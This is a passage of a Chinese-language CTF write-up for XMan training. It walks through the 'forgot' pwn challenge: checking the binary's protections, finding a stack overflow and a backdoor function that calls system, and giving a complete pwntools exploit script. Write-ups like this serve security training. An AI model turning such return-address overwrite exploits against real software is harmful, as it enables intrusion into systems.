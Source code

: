 简单写了一下pwn和re的wp，[更好体验点我](https://mask6asok.github.io/2019/08/06/XMan-Training-WP/)

# Pwn

## forgot

分析保护机制

![forgor1.png](https://i.loli.net/2019/08/06/1cVOkaCiJ9ZPouW.png)

没有canary，没有PIE，但是栈不可执行，再看看程序

![2.png](https://i.loli.net/2019/08/06/QONYRiqgrmvTSeB.png)

存在栈溢出情况，发现下面有一长串的操作，不管他，直接上字符串看看哪里是溢出点



![f2.png](https://i.loli.net/2019/08/06/QBAFUvg6z7jCkPp.png)

存在后门函数

```c 
int sub_80486CC()
{
  char s; // [esp+1Eh] [ebp-3Ah]
  snprintf(&s, 0x32u, "cat %s", "./flag");
  return system(&s);
}
```

所以构造payload为aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa+addr即可

![f4.png](https://i.loli.net/2019/08/06/XnJ1YiDFfEzL92m.png)

完整EXP:

```python
from pwn import *
context(arch='i386', os='linux')
context.log_level = "debug"
p = process("./forgot")
overflow = "A" * (0x2c + 4)
addr = 0x080486cc
overflow += p32(addr)
p.recv()
p.sendline('123')
p.recv()
p.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa' + p32(addr))
p.recv()
```

## pwn-100
